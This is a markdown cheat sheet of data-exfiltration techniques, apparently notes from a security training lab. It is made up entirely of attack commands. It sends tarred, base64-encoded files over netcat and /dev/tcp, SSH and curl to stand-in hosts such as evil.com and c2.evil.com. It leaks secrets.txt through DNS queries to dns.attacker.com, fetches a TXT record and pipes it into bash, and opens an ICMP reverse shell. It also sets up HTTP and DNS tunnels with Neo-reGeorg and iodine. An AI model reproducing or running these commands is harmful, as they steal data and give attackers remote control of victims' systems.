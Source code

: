 # TCP
```bash
# Starts a listener on the attackers machine
nc -lvp 11223 > /tmp/stolen.data

# On the victim machine, encode the data and send it over socket
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080

# On attacker machine, decode and read data
cd /tmp && dd conv=ascii if=stolen.data |base64 -d > stolen.tar && tar xvf stolen.tar
```

# SSH
```bash
# Sends data over ssh to attacker
tar cf - stolen/ | ssh attacker@evil.com "cd /tmp/; tar xpf -"
```

# HTTP/S
### PHP code to log data sent over post requests:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```
### Data Exfiltration:
```bash
# Sends data to attacker
curl --data "file=$(tar zcf - stolendata | base64)" http://c2.evil.com/contact.php

# Fix broken base64
sudo sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

## Tunneling
[Neo-reGeorg HTTPS tunneling tool](https://github.com/L-codes/Neo-reGeorg)
```bash
# Generate Tunnel Files
python3 neoreg.py generate -k keyfile

# Upload generated file at https://attacker.com/uploader

# start tunnel 
python3 neoreg.py -k thm -u http://10.10.63.2/uploader/files/tunnel.php

# Read webpage
curl --socks5 127.0.0.1:1080 http://172.20.0.121:80/path/to/file.txt
```

# ICMP
```bash
# Start metasploit listener for ICMP
use auxiliary/server/icmp_exfil
set BPF_FILTER icmp
set INTERFACE eth0
run

# Send file over from victim
sudo nping --icmp -c 1 10.10.63.2 --data-string "BOFfile.txt"
sudo nping --icmp -c 1 10.10.63.2 --data-string "some random data"
sudo nping --icmp -c 1 10.10.63.2 --data-string "EOF"

# Use ICMPDOOR for a icmp reverse shell. Start on victum
sudo icmpdoor -i eth0 -d 192.168.0.133

# Connect from attackbox
sudo icmp-cnc -i eth1 -d 192.168.0.121
```

# DNS
```bash
# Capture incoming DNS requests
sudo tcpdump -i eth0 udp port 53 -v 

# Split data into DNS subdomains
cat secrets.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/dns.attacker.com/

# Send data to attacker DNS server
cat secrets.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/dns.attacker.com/ | awk '{print "dig +short " $1}' | bash

# Run a script that is base64 encoded in a txt record
dig +short -t TXT script.attacker.com | tr -d "\"" | base64 -d | bash

```

## DNS Tunneling TCP
[Iodine DNS Tunneling Tool](https://github.com/yarrick/iodine)
```bash
# Start Iodine on attacker server
sudo iodined -f -c -P Attackerpass 10.1.1.1/24 tunnel.attacker.com

# Connect to Iodine from victim
sudo iodine -P Attackerpass tunnel.attacker.com

# Ssh over that new network, all traffic will be over DNS
ssh user@10.1.1.2 -4 -f -N -D 1080
# Retrieve webpage over DNS proxy
curl --socks5 127.0.0.1:1080 http://192.168.0.100/test.php
```
# Living off trusted sites
[https://lots-project.com/](https://lots-project.com/)